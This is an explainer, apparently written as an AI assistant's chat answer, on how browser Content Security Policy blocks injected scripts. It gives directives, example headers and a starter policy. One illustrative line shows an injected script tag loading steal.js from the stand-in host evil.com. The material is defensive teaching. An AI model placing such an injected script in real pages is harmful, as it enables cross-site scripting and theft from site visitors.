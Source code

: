 ## 🛡️ What is Content Security Policy (CSP)?

**CSP** is a **browser feature** that lets a website tell the browser:

> “Here’s a whitelist of sources I trust for loading scripts, styles, images, etc. Don’t allow anything else — even if it’s injected.”

---

### 🚫 Without CSP

If a hacker injects this code into your page:

```html
<script src="http://evil.com/steal.js"></script>
```

The browser loads it and runs it. 😱

---

### ✅ With CSP

The browser checks:

> “Is `evil.com` on the trusted list?”
> If not → ❌ **Blocked** before it ever runs!

---

## 📄 Basic Example

You can include CSP via a **response header** or `<meta>` tag.

### Example via HTTP header:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com
```

This says:

* Only load everything (`default-src`) from **your own domain** (`'self'`)
* Only load scripts from **your domain** and **trusted-cdn.com**

---

## 🔍 Let’s Break It Down

### ✅ CSP Directives (You’ll See These Often)

| Directive     | What it controls               | Example                     |
| ------------- | ------------------------------ | --------------------------- |
| `default-src` | Fallback for all content types | `'self'`                    |
| `script-src`  | JavaScript sources             | `'self'`, `'unsafe-inline'` |
| `style-src`   | CSS sources                    | `'self'`, `'unsafe-inline'` |
| `img-src`     | Image sources                  | `https://images.com`        |
| `font-src`    | Font sources                   | `'self'`                    |
| `connect-src` | AJAX, WebSocket, API endpoints | `https://api.example.com`   |
| `frame-src`   | Frames or iframes              | `https://youtube.com`       |

---

## 🧬 Real-Life Analogy

> CSP is like a bouncer at a nightclub.
> Only the people on the **guest list (trusted domains)** get in. Everyone else — **denied** at the door.

---

## 🔐 CSP in Action

### Example HTML with inline policy:

```html
<meta http-equiv="Content-Security-Policy"
      content="default-src 'self'; script-src 'self' https://cdn.jsdelivr.net">
```

### 🔥 What this does:

* Loads everything only from your own domain
* Allows scripts from `cdn.jsdelivr.net`
* Blocks scripts injected from third parties

---

## 🧨 Common Mistakes That Break CSP

| Mistake                      | Why it's dangerous             | Safer Alternative           |
| ---------------------------- | ------------------------------ | --------------------------- |
| Using `'unsafe-inline'`      | Allows inline `<script>` tags  | Move JS to external files   |
| Using `'unsafe-eval'`        | Allows `eval()` which is risky | Avoid eval, use strict code |
| Forgetting to whitelist CDNs | Breaks CSS/JS functionality    | Add trusted CDNs to policy  |

---

## 🧪 Test It Live!

You can play with CSP using these tools:

* 🔬 [https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) – Google’s CSP scanner
* 🧰 [https://report-uri.com/home/generate](https://report-uri.com/home/generate) – CSP generator

---

## 🚨 Bonus: CSP Reporting

You can **receive reports** of blocked resources!

```http
Content-Security-Policy: default-src 'self'; report-uri /csp-violation-report-endpoint
```

The browser will **send a JSON report** to that endpoint if something is blocked.

---

## ✅ TL;DR – What CSP Does for You

| 🛡️ Benefit                | ✅ Why it matters                         |
| -------------------------- | ---------------------------------------- |
| Stops XSS                  | Prevents unauthorized script execution   |
| Prevents data leaks        | Blocks malicious AJAX/WebSocket requests |
| Controls 3rd-party content | Only loads from trusted sources          |
| Adds layers of defense     | Even if XSS gets injected, CSP blocks it |

---

## ✅ Recommended Starter CSP

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data:;
  object-src 'none';
  base-uri 'self';
```

---

Would you like:

* 🔧 Help setting up CSP on your project?

* 👁️‍🗨️ Visual flow of CSP in a browser?

* 🎮 A CSP challenge playground?